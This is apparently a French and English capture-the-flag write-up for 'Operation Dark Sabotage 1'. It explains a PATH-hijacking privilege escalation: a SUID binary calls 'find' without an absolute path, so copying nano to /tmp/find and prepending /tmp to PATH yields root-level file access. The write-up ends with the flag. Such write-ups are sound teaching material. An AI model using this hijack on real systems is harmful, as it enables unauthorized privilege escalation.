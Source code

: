 # Operation Dark Sabotage 1

## Write-up FR

On remarque que le binaire `exe` est un exécutable `SUID` :
```bash
$ ls -la exe 
-rwsr-xr-x 1 root root 16208 Jan 22 01:56 ex
```

En analysant son code source, on constate qu'il exécute la commande `find -L` sans spécifier de chemin absolu. Cela signifie qu'il cherche l'exécutable `find` dans les répertoires définis par la variable `PATH`. Or, nous contrôlons cette variable, ce qui nous permet de détourner l'exécution en substituant `find` par un autre programme acceptant l'option `-L`.

Exemple d'exploitation en remplaçant `find` par `nano` :
```bash
$ cp /usr/bin/nano /tmp/find
$ export PATH=/tmp:$PATH
./exe flag.txt
```

## Write-up EN

We notice that the `exe` binary is a `SUID` executable:
```bash
$ ls -la exe 
-rwsr-xr-x 1 root root 16208 Jan 22 01:56 ex
```

By analyzing its source code, we see that it executes the `find -L` command without specifying an absolute path. This means it searches for the `find` executable in the directories defined by the `PATH` variable. Since we control this variable, we can hijack the execution by replacing `find` with another program that supports the `-L` option.

Example of exploitation by replacing `find` with `nano`:
```bash
$ cp /usr/bin/nano /tmp/find
$ export PATH=/tmp:$PATH
./exe flag.txt
```

## Flag

`polycyber{l0ng_l1v3_th3_3mp1r3}`